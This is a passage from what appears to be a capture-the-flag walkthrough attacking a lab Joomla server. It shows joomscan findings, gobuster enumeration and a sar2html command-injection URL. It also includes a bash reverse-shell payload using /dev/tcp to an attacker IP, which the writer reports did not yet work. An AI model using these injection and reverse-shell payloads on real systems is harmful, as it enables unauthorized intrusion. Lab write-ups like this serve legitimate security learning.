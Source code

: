 We run `joomscan` :
```
Vulnerabilities Discovered                      
# 1
                                                                                                            
Info -> Generic: htaccess.txt has not been renamed.
                                                            
Versions Affected: Any
                                                                                         
Check: /htaccess.txt
                                                                                           
Exploit: Generic defenses implemented in .htaccess are not available, so exploiting is more likely to succeed.
 
Vulnerable? Yes                                                                                                 
# 2
                                                                                                            
Info -> Generic: Unprotected Administrator directory
                                                           
Versions Affected: Any

Check: /administrator/

Exploit: The default /administrator directory is detected. Attackers can bruteforce administrator accounts. Read: http://yehg.net/lab/pr0js/view.php/MULTIPLE%20TRICKY%20WAYS%20TO%20PROTECT.pdf                                               
Vulnerable? Yes                                                         
```

They keep referencing enumeration.. Let's gobuster some more

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/tmp -x php,txt,js,html,jpg`

We can execute commands exploiting sar2html :
```
joomla/_test/index.php?plot=;ls -la
```

The output is in the `Select Host` dropdown menu.

We find 2 users
```
bastard
stoner
```

Let's get a reverse shell
Tried this :
```
http://10.10.5.8/joomla/_test/index.php?plot=;bash -i >& /dev/tcp/10.10.189.189/4444 0>&1
```

But the command got split at & (url parameter delimiter). I encoded it with `%26` but it didn't like the character `>` neither its encoded form.
